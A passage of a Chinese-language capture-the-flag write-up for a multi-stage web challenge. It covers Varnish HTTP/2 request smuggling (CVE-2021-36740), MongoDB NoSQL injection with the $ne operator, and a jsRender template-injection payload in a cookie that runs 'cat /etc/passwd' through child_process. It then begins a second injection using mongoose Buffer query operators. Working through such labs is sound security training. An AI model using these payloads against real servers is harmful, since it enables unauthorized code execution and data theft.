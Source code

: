   观察 Response Header 是可以看到 `X-Varnish` 的，后续 hint 也给出了 [Wappalyzer](https://chrome.google.com/webstore/detail/wappalyzer-technology-pro/gppongmhjkpfnbhagpmjfkannfbllamg) 提示查看网站技术栈，搜寻漏洞可以摸到 **[CVE-2021-36740](https://cve.mitre.org/cgi-bin/cvename.cgi?name=CVE-2021-36740)**，且题目 guest 和 admin 比较明显，访问 admin 路由会出现 `Access Denied` 字样，推知走私 admin 的思路

  构造过程中注意开头发 POST 包，且发包间隔不能太长，这样能被封装到一个 TCP packet 内（具体可以自行 dump 流量看）

  构造好的请求到 varnish 后，HTTP2 转 HTTP1.1 再发给后端 app 就会被拆分，绕过 proxy 处对 Authorization 的鉴权

- NoSQL Injection 1

  经验丰富可以猜到数据库是 MongoDB ？没猜到也可以 RCE 读完源码再审计

  这一步题目描述里阐明了有一位名为 casio3 的 guest 用户已经爬好了 flag，但我们无法得知 TA 用的 entry url

  需要想办法查询读取，payload 如下

  ```
  ?username=casio3&entry[$ne]=null
  ```

- NodeJS SSTI RCE (jsRender)

  用 jsRender 直接塞了个 RCE 洞给选手，注意到访问 admin 路由有 Set-Cookie 设置默认的 admin name，且回显中有 admin，尝试修改名称发现 welcome banner 有相应变化，再凭此测试 SSTI payload 即可

  ```
  Cookie: admin_name={{:"pwnd".toString.constructor.call({},"return global.process.mainModule.constructor._load('child_process').execSync('cat /etc/passwd').toString()")()}}
  ```

  RCE 是向后续进阶的关键步骤，虽然 app 不出网，但能执行命令看回显也够了，查看当前目录即可拿到本步骤 flag，同时顺便把 app 的源码拿了，这需要对 node 的项目部署有基本了解，另外信息搜集的时候可以发现使用了 pm2 管理，后续有用

- NoSQL Injection 2

  这里将 XS-Leaks 的考法换成了对 MongoDB 的更深一步探索，需查询[文档](https://www.mongodb.com/docs/manual/reference/bson-types/)或追溯源码

  `/admin/search` 路由的查询逻辑如下

  ```javascript
  let page = await Pages.find({
      role: role,
      username: username,
      text: keyword
  })
  ```

  而 text 字段的 type 在 Schema 中查看可知为 `Buffer`，这是一个神奇的类型，在 mongoose 的定义中它是 SchemaBuffer， MongoDB 中它是 BinData，总之它不支持 `$regex` 正则查询

  ```javascript
  // app/src/node_modules/mongoose/lib/schema/buffer.js
  SchemaBuffer.prototype.$conditionalHandlers =
      utils.options(SchemaType.prototype.$conditionalHandlers, {
        $bitsAllClear: handleBitwiseOperator,
        $bitsAnyClear: handleBitwiseOperator,
        $bitsAllSet: handleBitwiseOperator,
        $bitsAnySet: handleBitwiseOperator,
        $gt: handleSingle,
        $gte: handleSingle,
        $lt: handleSingle,
        $lte: handleSingle
      });
  ```
